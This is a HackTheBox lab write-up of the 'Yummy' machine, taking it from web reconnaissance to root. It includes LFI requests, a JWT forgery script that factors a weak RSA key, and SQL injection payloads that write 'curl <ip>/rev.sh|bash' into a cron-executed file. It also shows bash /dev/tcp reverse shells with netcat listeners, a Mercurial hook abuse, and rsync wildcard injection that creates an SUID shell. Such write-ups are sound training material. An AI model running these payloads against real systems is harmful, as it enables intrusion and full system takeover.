<h1><ins>HackTheBox: Yummy Writeup</ins></h1>

**Date:** 17/10/2024\
**Author:** [acfirthh](https://github.com/acfirthh)

**Machine Name:** Yummy\
**Difficulty:** Hard\
**Link to Machine:** [HackTheBox- Yummy (Hard)](https://app.hackthebox.com/machines/Yummy)

## Reconaissance
### NMAP Scan


**(Add "yummy.htb" to /etc/hosts)**

### Gobuster Scan


Nothing too interesting from the Gobuster scan.

## First Look
Visiting `http://yummy.htb` in a browser I was met with a website for a restaurant that allows you to book a table.


A quick look around the website doesn't turn up anything particularly interesting apart from the option to register an account.

### Registering an Account


After registering an account, I logged in using the same credentials I registered the account with.

Logging in, I am redirected to **/dashboard**:

This looked like it'll be where all of a user's table bookings will be located.

### Booking a Table


Clicking on the **Book A Table** button and filling in the required fields before clicking **Reserve Table** and then visiting **/dashboard** again, I see my reservation information underneath the table headers.



## Initial Foothold
After I made a booking, I am met with a couple more options. The first being to cancel the reservation, and the second being **Save iCalendar**.

This peaked my interest so I clicked the button and was redirected twice, the first being to **/reminder/21** and then immediately to **/export/Yummy_reservation_20241018_160407.ics** which promptly started downloading *Yummy_reservation_20241018_160407.ics*.

> An ICS file is a  calendar file that uses a universal calendar format used by many email and calendar applications.

### Local File Inclusion (LFI) in the /export Functionality
I noticed that the full file name of the downloaded ICS file is in the request sent to **/export**, this made me think to test for LFI. 

I first tried to get LFI by visiting `http://yummy.htb/export/../../../../../../etc/passwd` however all of the **../** got removed and I was met with an error 404, file not found.

Looking at the requests sent to the wesbite, when downloading the ICS file, captured in **BurpSuite**, I noticed that there was a session added to the cookie in the request.



Knowing that I needed a session token to download files from the **/export** endpoint, and that the session token is only generated after clicking the **Save iCalendar** button on the dashboard. I captured the request again and modified the file name to conatain my LFI payload.



After forwarding the request, I checked my downloads folder and noticed a file named **`crontab`**.\
**Success! The LFI worked!**

Viewing the contents of the **crontab** file, I could see multiple cronjobs setup calling scripts at set intervals.

```
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
# You can also override PATH, but by default, newer versions inherit it from the environment
#PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *	* * *	root	cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || { cd / && run-parts --report /etc/cron.daily; }
47 6	* * 7	root	test -x /usr/sbin/anacron || { cd / && run-parts --report /etc/cron.weekly; }
52 6	1 * *	root	test -x /usr/sbin/anacron || { cd / && run-parts --report /etc/cron.monthly; }
#
*/1 * * * * www-data /bin/bash /data/scripts/app_backup.sh
*/15 * * * * mysql /bin/bash /data/scripts/table_cleanup.sh
* * * * * mysql /bin/bash /data/scripts/dbmonitor.sh
```

<h4><ins>Cronjob Scripts:</ins></h4>

`/data/scripts/dbmonitor.sh`
`/data/scripts/table_cleanup.sh`
`/data/scripts/app_backup.sh`

Using the LFI vulnerability discovered earlier, I downloaded the newly found cronjob scripts.

<h4><ins>dbmonitor.sh</ins></h4>

```
#!/bin/bash

timestamp=$(/usr/bin/date)
service=mysql
response=$(/usr/bin/systemctl is-active mysql)

if [ "$response" != 'active' ]; then
    /usr/bin/echo "{\"status\": \"The database is down\", \"time\": \"$timestamp\"}" > /data/scripts/dbstatus.json
    /usr/bin/echo "$service is down, restarting!!!" | /usr/bin/mail -s "$service is down!!!" root
    latest_version=$(/usr/bin/ls -1 /data/scripts/fixer-v* 2>/dev/null | /usr/bin/sort -V | /usr/bin/tail -n 1)
    /bin/bash "$latest_version"
else
    if [ -f /data/scripts/dbstatus.json ]; then
        if grep -q "database is down" /data/scripts/dbstatus.json 2>/dev/null; then
            /usr/bin/echo "The database was down at $timestamp. Sending notification."
            /usr/bin/echo "$service was down at $timestamp but came back up." | /usr/bin/mail -s "$service was down!" root
            /usr/bin/rm -f /data/scripts/dbstatus.json
        else
            /usr/bin/rm -f /data/scripts/dbstatus.json
            /usr/bin/echo "The automation failed in some way, attempting to fix it."
            latest_version=$(/usr/bin/ls -1 /data/scripts/fixer-v* 2>/dev/null | /usr/bin/sort -V | /usr/bin/tail -n 1)
            /bin/bash "$latest_version"
        fi
    else
        /usr/bin/echo "Response is OK."
    fi
fi

[ -f dbstatus.json ] && /usr/bin/rm -f dbstatus.json
```
This script checks to see if the mysql service is running, if it isn't then it will sort the `fixer-v*` scripts to find the latest version and then run it, using **/bin/bash**, to restart the mysql service.

<h4><ins>table_cleanup.sh</ins></h4>

```
#!/bin/sh

/usr/bin/mysql -h localhost -u chef yummy_db -p'[REDACTED]' < /data/scripts/sqlappointments.sql
```
This script refreshes the appointments table of the database with default appointment values. There is also a username `chef` and a password for said user.\
Testing these credentials against SSH doesn't work, unfortunately.

<h4><ins>app_backup.sh</ins></h4>

```
#!/bin/bash

cd /var/www
/usr/bin/rm backupapp.zip
/usr/bin/zip -r backupapp.zip /opt/app
```
This script is used to create a full backup of the web application. It deletes the old backup and then zips the current web app content into a file named **backupapp.zip** and sputs it in **/var/www**.

Again, using the LFI vulnerability discovered earlier, I downloaded the **backupapp.zip** from `/var/www/backupapp.zip`

### Code Analysis
I extracted the contents of the downloaded zip file and looked at the code.

Within the **app.py** file, there is a web route for `/admindashboard`.
```
@app.route('/admindashboard', methods=['GET', 'POST'])
def admindashboard():
        validation = validate_login()
        if validation != "administrator":
            return redirect(url_for('login'))
 
        try:
            connection = pymysql.connect(**db_config)
            with connection.cursor() as cursor:
                sql = "SELECT * from appointments"
                cursor.execute(sql)
                connection.commit()
                appointments = cursor.fetchall()

                search_query = request.args.get('s', '')

                # added option to order the reservations
                order_query = request.args.get('o', '')

                sql = f"SELECT * FROM appointments WHERE appointment_email LIKE %s order by appointment_date {order_query}"
                cursor.execute(sql, ('%' + search_query + '%',))
                connection.commit()
                appointments = cursor.fetchall()
            connection.close()
            
            return render_template('admindashboard.html', appointments=appointments)
        except Exception as e:
            flash(str(e), 'error')
            return render_template('admindashboard.html', appointments=appointments)
```
Analysing the code, I notice that there is an SQL injection vulnerability in the **/admindashboard** search functionality. However, to access the admin dashboard I must be an administrator. 

Looking further into how the backend verifies that a user is an administrator, I notice that it uses JSON Web Token's (JWT). The algorithm used is **RS256** which means that each JWT is signed using RSA private and public keys. This means that I cannot just modify the **role** value in the JWT to bypass the checks.

Looking further into how the JWT's are generated, I find a file named **signature.py**.

<h4><ins>signature.py</ins></h4>

```
#!/usr/bin/python3

from Crypto.PublicKey import RSA
from cryptography.hazmat.backends import default_backend
from cryptography.hazmat.primitives import serialization
import sympy


# Generate RSA key pair
q = sympy.randprime(2**19, 2**20)
n = sympy.randprime(2**1023, 2**1024) * q
e = 65537
p = n // q
phi_n = (p - 1) * (q - 1)
d = pow(e, -1, phi_n)
key_data = {'n': n, 'e': e, 'd': d, 'p': p, 'q': q}
key = RSA.construct((key_data['n'], key_data['e'], key_data['d'], key_data['p'], key_data['q']))
private_key_bytes = key.export_key()

private_key = serialization.load_pem_private_key(
    private_key_bytes,
    password=None,
    backend=default_backend()
)
public_key = private_key.public_key()
```
Analysing the code of **signature.py** I notice that the implementation of generating the prime numbers for RSA is insecure.

#### Explanation:
`q = sympy.randprime(2**19, 2**20)`\
The maths used to generate 'q' means that the value will be between **524288** and **1048576**. This number is very small for the use in RSA. 

> RSA should be implemented so that it should be computationally infeasable to factorise the modulus (n).

This implementation of RSA prime generation opens it up for a factorisation attack due to the prime **q** being so small.

<h3><ins>Prime Number Factorisation and JWT Forging</ins></h3>

I wrote a quick Python script, utilising the code from **signature.py**, to factorise the modulus (n), retrieve the values **p** and **q**, generate the private and public keys, modify the **role** value of a JWT token of a legitemate user and then re-sign it with the generated private key so the web application would accept it as a legitemate JWT.

### JWT Forgery Script:

```
from cryptography.hazmat.primitives import serialization
from cryptography.hazmat.backends import default_backend
from Crypto.PublicKey import RSA
from base64 import b64decode
import sympy
import json
import jwt

def b64_padding(b64_string):
    while len(b64_string) % 4 != 0:
        # Pad with '='
        b64_string += '='
    # Return padded string
    return b64_string

def b64_url_decode(b64_string):
    # Pad the base64 string
    padded_b64 = b64_padding(b64_string)
    # Replace '-' with '+' and '_' with '/'
    url_decoded = padded_b64.replace('-', '+').replace('_', '/')
    # Return URL decoded string
    return url_decoded
    

def get_modulus(cur_jwt):
    url_decoded = b64_url_decode(cur_jwt.split(".")[1])
    # Base64 decode URL decoded string
    b64_decoded = b64decode(url_decoded).decode()
    # Load JSON data
    json_data = json.loads(b64_decoded)
    # Get modulus (n) from JSON data
    modulus = int(json_data["jwk"]['n'])
    # Return modulus
    return modulus

def factorise_n(n):
    # Factorise the weak modulus
    factorised_n = sympy.factorint(n).keys()
    # Get p and q from factorised values
    p, q = list(factorised_n)
    # Return p and q
    return p, q

def generate_public_private_key(n, p, q):
    # Code from 'signature.py' to generate the private and public keys
    e = 65537
    phi_n = (p - 1) * (q - 1)
    d = pow(e, -1, phi_n)
    key_data = {'n': n, 'e': e, 'd': d, 'p': p, 'q': q}
    key = RSA.construct((key_data['n'], key_data['e'], key_data['d'], key_data['p'], key_data['q']))
    private_key_bytes = key.export_key()

    # Generate private key
    private_key = serialization.load_pem_private_key(
        private_key_bytes,
        password=None,
        backend=default_backend()
    )

    # Generate public key
    public_key = private_key.public_key()

    # Return private and public keys
    return private_key, public_key

def forge_jwt(cur_jwt, pub_key, priv_key):
    # Decode the current JWT
    jwt_data = jwt.decode(cur_jwt, pub_key, algorithms=["RS256"])
    # Modify the role value to 'administrator'
    jwt_data["role"] = "administrator"
    # Re-encode the forged JWT
    forged_jwt = jwt.encode(jwt_data, priv_key, algorithm="RS256")
    # Return forged JWT
    return forged_jwt

def main():
    current_jwt = input("[?] Enter Current JWT: ")
    # Get the modulus (n)
    n = get_modulus(current_jwt)
    # Factorise the weak modulus to get p and q
    p, q = factorise_n(n)
    # Generate public and private keys
    private_key, public_key = generate_public_private_key(n, p, q)
    # Generate forged JWT
    forged_jwt = forge_jwt(current_jwt, public_key, private_key)
    # Print the new forged JWT
    print(f"\n[*] Forged JWT: {forged_jwt}")

if __name__ == '__main__':
    main()
```
As I was already logged in on the website, I opened the **Developer Tools** and copied the JWT named `X-AUTH-Token`.\
Running my script and pasting in my JWT, it generated a new JWT for me which contained **administrator** as the **role** value. 

Finally, I copied the new JWT and replaced my current JWT with the new one whilst being one the `/dashboard` page. Once refreshing the page, the web application registered that my JWT signified that I was an administrator, I was redirected to `/admindashboard`!



## Getting a Shell as user 'mysql'
Knowing that there is an SQL injection vulnerability in the search functionality on the admin dashboard, I try to extract the table containing users information to see if I could get some more credentials for other users. However, the **Users** table seemed to be empty. 

Time for a new method. Thinking back to the cronjob script **dbmonitor.sh** I found earlier using LFI, I noticed that I can use SQL injection to modify the content of `/data/scripts/dbstatus.json` and create a file named `/data/scripts/fixer-v___` containing a script to download a reverse shell from my machine and execute it to get a shell.

#### Explanation:
The way that the **dbmonitor.sh** script works, is by first checking if the mysql service is running. If it is not, then it writes `status: The database is down, time: <timestamp>` to `/data/scripts/dbstatus.json`.

If the mysql service is running, but the file **dbstatus.json** exists, then it will check if the string **"database is down"** is in the file. If the string ***is*** in the file, the it echoes **"mysql was down at $timestamp but came back up."** and deletes the file.

However, if that string does not exist in the file, then it echoes **"The automation failed in some way, attempting to fix it."**, sorts the files named **fixer-v*** to find the latest version, and then runs it using `/bin/bash`.

#### Exploit:
Using the SQL injection, I was able to write arbitrary data to the file `/data/scripts/dbstatus.json`. I was also able to create a file named `/data/scripts/fixer-v___`. 

When the **dbmonitor.sh** script sorts the files to find the latest version, my file will be recognised as the latest version due to the special characters **"___"**.

##### SQLi Queries:
1. Query to put arbitrary data into **dbstatus.json**\
Plaintext: **`; select "nothing;" INTO OUTFILE '/data/scripts/dbstatus.json';`**\
URL Encoded: **`%3b++select+"nothing;"+INTO+OUTFILE++'/data/scripts/dbstatus.json'+%3b`**

2. Query to write shell script into **fixer-v___**\
Plaintext: `; select "curl <ip address>/rev.sh|bash;" INTO OUTFILE '/data/scripts/fixer-v___';`\
URL Encoded: `%3b++select+"curl+<ip address>/rev.sh+|bash%3b"+INTO+OUTFILE++'/data/scripts/fixer-v___'+%3b`

##### Steps for exploitation:
1. Create a reverse shell .sh script on my local machine\
    `echo "bash -c 'bash -i >& /dev/tcp/<ip address>/<port> 0>&1'" > rev.sh`

2. Start a netcat listener on the port used in the reverse shell\
    `nc -nvlp <port>`

3. Start a Python HTTP server to serve the reverse shell\
    `python3 -m http.server 80`

4. Run the first SQLi query, whilst on the **/admindashboard** with the forged JWT, to write arbitrary data to **dbstatus.json**.\
`http://yummy.htb/admindashboard?s=aa&o=ASC%3b++select+"nothing;"+INTO+OUTFILE++'/data/scripts/dbstatus.json'+%3b`

5. Run the second SQLi query, whilst on the **/admindashboard** with the forged JWT, to write the shell script to **fixer-v___**.\
`http://yummy.htb/admindashboard?s=aa&o=ASC%3b++select+"curl+<ip address>/rev.sh+|bash%3b"+INTO+OUTFILE++'/data/scripts/fixer-v___'+%3b`

I then waited for the **dbmonitor.sh** cronjob to run, fetch the reverse shell script from my local machine:



Then execute the reverse shell to get a callback on my listener:



## Priv-Esc to www-data
The cronjob script `/data/scripts/app_backup.sh` is writable by the mysql user. This allowed me to replace the script with my own reverse shell.\
I created a hidden directory in the **/tmp** directory named **.tools** to store my reverse shell and other tools I may need.

1. `echo "bash -c 'bash -i >& /dev/tcp/<ip address>/<port> 0>&1'" > rev.sh`\
(On local machine)

2. `mkdir /tmp/.tools; cd /tmp/.tools; wget http://<ip address>/rev.sh`\
(On target machine)



3. `nc -nvlp <port>`\
(On local machine)

4. `mv /data/scripts/app_backup.sh /data/scripts/app_backup.sh.old`

5. `mv /tmp/.tools/rev.sh /data/scripts/app_backup.sh`

I then waited for the cronjob to run the **app_backup.sh** script and execute my reverse shell.



6. After getting a reverse shell connection, replace the modified **app_backup.sh** with the original.\
`rm /data/scripts/app_backup.sh; mv /data/scripts/app_backup.sh.old /data/scripts/app_backup.sh`

## PrivEsc to User 'qa'
After some file enumeration, I found out that the developers of the web application use **Mercurial** as a source control management tool. It is similar to **git**.

> Mercurial is a free, distributed source control management tool. It efficiently handles projects of any size and offers an easy and intuitive interface.

I found a directory containing some source code from a previous version of the website. `/var/www/app-qatesting/.hg`.\
Within this directory I found: `/var/www/app-qatesting/.hg/store/data/app.py.i`.

When running the **file** command on this file, it says that it is a ***data*** file. So I ran **strings** on it, `strings /var/www/app-qatesting/.hg/store/data/app.py.i`

```
tvGq
|YC^,2
t[QRpn@/S
>ody
'app.secret_key = s.token_hex(32)
T sql = f"SELECT * FROM appointments WHERE_email LIKE %s"
#md5
9    'user': 'chef',
    'password': '[REDACTED]',
V([Q
>GQ$
6    'user': 'qa',
    'password': '[REDACTED]',
P8*p
kwJj
d[I})u
^+Wq@
$       JJKx8
D'<a
```
The file contains credentials for the user **qa**!

I then SSH'd into **yummy.htb** using the credentials for **qa** found in the file.

## Priv-Esc to User 'dev'
Running `sudo -l` as the user **qa** I saw that I could run `/usr/bin/hg pull /home/dev/app-production/` as the user **dev**.

#### Steps for Exploitation:
1. Copy the original `.hgrc` to a temporary directory.\
`cd /tmp; mkdir .hg; chmod 777 .hg; cp ~/.hgrc .hg/hgrc`

2. Create a reverse shell on local machine\
`echo "bash -c 'bash -i >& /dev/tcp/<ip address>/<port> 0>&1'" > rev.sh`

3. Download the reverse shell onto the target\
`cd /tmp/.tools; wget http://<ip address>/rev.sh`

4. Make the reverse shell script executable\
`chmod +x /tmp/.tools/rev.sh`

5. Add the reverse shell execution call after the last line of **/tmp/.hg/hgrc**:\
`[hooks]
post-pull = /tmp/.tools/rev.sh`



6. Start a listener\
`nc -nvlp <port>`

7. Activate the reverse shell by running the sudo command\
`sudo -u dev /usr/bin/hg pull /home/dev/app-production/`





## Priv-Esc to root
After getting a shell as **dev**, I ran `sudo -l`.

`(root:root) NOPASSWD: /usr/bin/rsync -a --exclude=.hg /home/dev/app-production/* /opt/app/`

The wildcard `*` within the command means that I can add in extra `rsync` arguments.

#### Steps for Exploitation:
1. Change directory into the home driectory of the user **dev**\
`cd /home/dev/`

2. Copy the **/bin/bash** executable into **app-production/bash**\
`cp /bin/bash app-production/bash`

3. Make the copied **bash** executable an SUID binary\
`chmod u+s app-production/bash`

4. Run the sudo command with the added `--chown` rsync command\
`sudo /usr/bin/rsync -a --exclude=.hg /home/dev/app-production/* --chown root:root /opt/app/`

5. Execute the new modified **bash** executable with **-p** to spawn a shell as **root**\
`/opt/app/bash -p`


